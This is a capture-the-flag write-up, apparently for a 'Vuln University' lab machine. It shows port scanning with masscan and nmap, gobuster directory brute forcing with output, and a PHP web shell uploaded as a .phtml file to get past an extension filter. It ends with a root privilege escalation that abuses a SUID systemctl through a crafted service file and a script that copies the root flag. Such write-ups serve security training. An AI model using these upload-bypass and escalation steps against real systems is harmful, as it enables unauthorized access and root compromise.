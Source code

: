 # Open Ports

```bash
$ masscan -p1-65535 10.10.6.125 --rate=1000 -e tun0 --output-format grepable --output-filename vulnuniversity.masscan

# Masscan 1.3.2 scan initiated Wed Jul 7 02:04:34 2021
# Ports scanned: TCP(65535;1-65535) UDP(0;) SCTP(0;) PROTOCOLS(0;)
Timestamp: 1625623487 Host: 10.10.6.125 () Ports: 445/open/tcp//microsoft-ds//
Timestamp: 1625623545 Host: 10.10.6.125 () Ports: 3128/open/tcp//unknown//
Timestamp: 1625623578 Host: 10.10.6.125 () Ports: 22/open/tcp//ssh//
Timestamp: 1625623578 Host: 10.10.6.125 () Ports: 21/open/tcp//ftp//
Timestamp: 1625623583 Host: 10.10.6.125 () Ports: 139/open/tcp//netbios-ssn//
Timestamp: 1625623593 Host: 10.10.6.125 () Ports: 3333/open/tcp//unknown//
# Masscan done at Wed Jul 7 02:06:50 2021
```

# Service Enumeration

```bash
$ nmap -sC -sV -O -p139,21,22,3128,3333,445 10.10.6.125 -oA vulnuniversity

Starting Nmap 7.91 ( https://nmap.org ) at 2021-07-06 21:11 CDT
Nmap scan report for 10.10.6.125
Host is up (0.087s latency).

PORT STATE SERVICE VERSION
21/tcp open ftp vsftpd 3.0.3
22/tcp open ssh OpenSSH 7.2p2 Ubuntu 4ubuntu2.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
| 2048 5a:4f:fc:b8:c8:76:1c:b5:85:1c:ac:b2:86:41:1c:5a (RSA)
| 256 ac:9d:ec:44:61:0c:28:85:00:88:e9:68:e9:d0:cb:3d (ECDSA)
|_ 256 30:50:cb:70:5a:86:57:22:cb:52:d9:36:34:dc:a5:58 (ED25519)
139/tcp open netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
3128/tcp open http-proxy Squid http proxy 3.5.12
|_http-server-header: squid/3.5.12
|_http-title: ERROR: The requested URL could not be retrieved
3333/tcp open http Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Vuln University
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.10 - 3.13 (95%), Linux 5.4 (95%), ASUS RT-N56U WAP (Linux 3.4) (95%), Linux 3.16 (95%), Linux 3.1 (93%), Linux 3.2 (93%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (92%), Sony Android TV (Android 5.0) (92%), Android 5.0 - 6.0.1 (Linux 3.4) (92%), Android 5.1 (92%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 4 hops
Service Info: Host: VULNUNIVERSITY; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: 1h20m47s, deviation: 2h18m34s, median: 47s
|_nbstat: NetBIOS name: VULNUNIVERSITY, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb-os-discovery: 
| OS: Windows 6.1 (Samba 4.3.11-Ubuntu)
| Computer name: vulnuniversity
| NetBIOS computer name: VULNUNIVERSITY\\x00
| Domain name: \\x00
| FQDN: vulnuniversity
|_ System time: 2021-07-06T22:13:11-04:00
| smb-security-mode: 
| account_used: guest
| authentication_level: user
| challenge_response: supported
|_ message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
| 2.02: 
|_ Message signing enabled but not required
| smb2-time: 
| date: 2021-07-07T02:13:11
|_ start_date: N/A

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 31.92 seconds
```

# Web Directory Brute Forcing

```bash
$ gobuster dir -u http://10.10.6.125:3333 -w /usr/share/dirbuster/wordlists/directory-list-lowercase-2.3-small.txt -x php,txt,html

===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url: http://10.10.6.125:3333
[+] Method: GET
[+] Threads: 10
[+] Wordlist: /usr/share/dirbuster/wordlists/directory-list-lowercase-2.3-small.txt
[+] Negative Status codes: 404
[+] User Agent: gobuster/3.1.0
[+] Extensions: php,txt,html
[+] Timeout: 10s
===============================================================
2021/07/06 21:24:44 Starting gobuster in directory enumeration mode
===============================================================
/images (Status: 301) [Size: 318] [--> http://10.10.6.125:3333/images/]
/index.html (Status: 200) [Size: 33014] 
/css (Status: 301) [Size: 315] [--> http://10.10.6.125:3333/css/] 
/js (Status: 301) [Size: 314] [--> http://10.10.6.125:3333/js/] 
/fonts (Status: 301) [Size: 317] [--> http://10.10.6.125:3333/fonts/] 
/internal (Status: 301) [Size: 320] [--> http://10.10.6.125:3333/internal/]
Progress: 19372 / 326576 (5.93%) ^C
[] Keyboard interrupt detected, terminating.
===============================================================
2021/07/06 21:27:50 Finished
===============================================================
```

Upload files to `/internal` 

# File Upload

## Upload Form

![[Pasted image 20210706213315.png]]

## Bypass Upload Filter

Apache web server on port 3333, so `PHP` is the focus

Uploads are filtered by extension (`php`, `php2`, etc.), but  `.phtml` is allowed

Upload PHP web shell `tgihf.phtml`

## Successful Web Shell Upload

![[Pasted image 20210708233733.png]]

---

# Privilege Escalation

## SUID Executables

![[Pasted image 20210709210129.png]]

`systemctl` is SUID executable and owned by `root`

## Create a Service to Grab the Flag

### Service file (`tgihf.service`)

```
[Unit]
description=tgihf

[Service]
Type=simple
User=root
ExecStart=/dev/shm/tgihf.sh

[Install]
WantedBy=multi-user.target
```

### `Bash` script to grab the flag (`tgihf.sh`)

```
#!/bin/bash
cp /root/root.txt /dev/shm/
```

Save both in `/dev/shm` and set `/dev/shm/tgihf.sh` to executable.

## Enable and Start the Service

```bash
systemctl enable /dev/shm/tgihf.sh
systemctl start tgihf
```

Grab the flag from `/dev/shm/root.txt`.